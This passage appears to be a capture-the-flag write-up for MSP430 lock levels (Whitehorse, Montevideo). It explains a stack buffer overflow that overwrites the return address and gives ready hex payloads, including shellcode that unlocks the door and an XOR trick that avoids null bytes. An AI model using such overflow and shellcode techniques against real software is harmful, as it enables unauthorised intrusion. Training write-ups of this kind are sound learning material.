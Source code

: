 The simplest shellcode looks like this (`30127f00b0123245` in bytes):
```assembly
push    #0x7f ; 0x7f is an interrupt to unlock the door according to the manual
call    #0x4532 <INT>
```
The password is written to `0x3088` and the return address is stored at `0x3098`. There is no need to worry about the size of the shellcode as `0x30` is passed to `getsn` function, meaning the shellcode size can be not more than 46 bytes (2 bytes are taken by the return address). It is possible to execute shellcode after (the return address will point to `0x309a`) or before the return address (the return address will point to `0x3088`) as there is enough space for both approaches (the amount of CPU cycles is the same):
* After: `313131313131313131313131313131319a3030127f00b0123245`
* Before: `30127f00b012324531313131313131318830`

## Montevideo (rev c.03)

The lock is attached to HSM version 2 and `developers have rewritten the code  to conform to the internal secure development process`. This is an improvement over Whitehorse level. `login` function now writes the password provided by the user to `0x2400` and then copies it to the stack utilizing `strcpy` followed by a call to `memset` which zeroes the memory where the password was stored:

```assembly
44f4 <login>
...
4508:  3e40 3000      mov	#0x30, r14
450c:  3f40 0024      mov	#0x2400, r15
4510:  b012 a045      call	#0x45a0 <getsn>
4514:  3e40 0024      mov	#0x2400, r14
4518:  0f41           mov	sp, r15
451a:  b012 dc45      call	#0x45dc <strcpy>
451e:  3d40 6400      mov	#0x64, r13
4522:  0e43           clr	r14
4524:  3f40 0024      mov	#0x2400, r15
4528:  b012 f045      call	#0x45f0 <memset>
...
4544:  3150 1000      add	#0x10, sp
4548:  3041           ret
```

`strcpy` copies the [null-terminated string](https://en.cppreference.com/w/cpp/string/byte/strcpy), meaning that if the shellcode contains null bytes, then it will be truncated. The only null byte in Whiterose solution is `push #0x7f` which is assembled to `30127f00`. Null bytes can be prevented by using arithmetical operations (XOR, SUB, ADD). The shellcode may look as follows:
```assembly
3f40 8011      mov	#0x1180, r15
3fe0 ff11      xor	#0x11ff, r15 ; r15 now contains 0x7f
0f12           push	r15
b012 4c45      call	#0x454c
```
The password is written to `0x43ee`, the return address is stored at `0x43fe` and `INT` function is at `0x454c`. As with Whiterose level, it is possible to execute shellcode after (the return address will point to `0x4402`; not to `0x4400` because of the null byte in the address itself; not to `0x4401` because the instruction address will be unaligned) or before the return address (the return address will point to `0x43ee`):
* After: `31313131313131313131313131313131024431313f4080113fe0ff110f12b0124c45` (more CPU cycles because of `strcpy`)
* Before: `3f4080113fe0ff110f12b0124c453131ee43`
